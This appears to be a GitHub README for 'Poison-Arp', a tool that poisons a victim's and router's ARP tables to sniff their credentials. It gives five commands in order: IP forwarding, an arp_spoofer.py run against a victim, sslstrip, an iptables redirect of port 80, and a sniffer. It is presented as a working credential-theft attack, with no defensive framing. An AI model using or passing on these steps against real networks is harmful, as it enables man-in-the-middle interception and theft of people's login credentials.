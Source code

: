# Poison-Arp

This is tool can poison the Arp table of the victim as well as router and sniff all the credentials of the victim.It works with HTTP as well as HTTPS but not with HSTS.

Step 1:- Allow traffic to pass through the Hacker machine with the below command 

$ echo 1 > /proc/sys/net/ipv4/ip_forward

![](/images/traffic_bypass.png)


Step 2:- Now run the arp-spoofer  with the below command 

$ python3 arp_spoofer.py --gateway  ap_ip --target victim_ip

![](/images/spoof.png)

Step 3: Run the sslstrip with the below command

$ sslstrip

![](/images/ssltrip.png)

Step 4: forward all the traffic to sslstrip port using iptables with the following command 

$ iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT  --to-port 10000 

![](/images/iptables.png)


Step 5: Run the sniffer with the following command

$ python3 sniffer.py -i interface








